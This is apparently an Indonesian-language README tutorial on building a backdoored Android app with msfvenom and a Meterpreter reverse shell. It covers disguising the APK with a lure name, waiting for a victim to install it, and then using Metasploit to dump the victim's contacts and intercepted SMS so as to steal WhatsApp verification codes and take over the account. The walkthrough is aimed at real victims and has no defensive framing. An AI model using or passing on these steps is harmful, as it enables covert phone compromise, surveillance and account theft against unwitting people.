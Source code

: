 Cara membuat apk bacdoor kamka :v

cd metasploit-framework
./msfvenom -p android/meterpreter/reverse_tcp LHOST=(ip elo)  LPORT=4444 -o /sdcard/backdoor.apk

NOTE :ip local elo note buja tab baru ketik ifconfig lalu tekan enter NAH di situ ada tulisan inet kalian liat yang
 paling bawah ya kalian copy ip kalian

NOTE LAGI: nama backdoor itu bisa kalian ganti bebas bisa juga kalian ganti jadi SIMONTOK.apk

NOTE LAGI NIH : LPROT BISA 4444 ATAU 8080

Setelah itu masukin PERINTAH exploit nya

Pertama : use multi/handler
Kedua : set payload android/meterpreter/reverse_tcp
Ke tiga : set lhost (Samain yang di atas ip elo)
KE EMPAT : set lport (sesuain yang di atas 4444 atau 8080)
KE LIMA :  exploit NOTE MASUKAN PERINTAH INI JIKA KORBAN SUDAH MENGISTALL APK BACKDOOR NYA

PUNTEN BONUS: 
NAH KLO DAH SELESAI NTAR ADA TULISAN MERTERPRETER
NAH KLO KALIAN MO TAU KONTAK KORBAN masukin prerinta dump_concat
Klo mo sadap wa :
sys info

dalvik/android

 klean login pake nomer korban nah kan udh ya minta kode verivikaisi nya
Pergi ke mestaploit ketil dump_sms nah ntar bakal muncul kode 
Kalian buka tab baru  nah contoh ya kode nya dari mestaploit sms_dump_
29910101.txt  nah  kan kalian sudah buka tab baruya kalian ketik  cat (kode dari mestaploitnya)
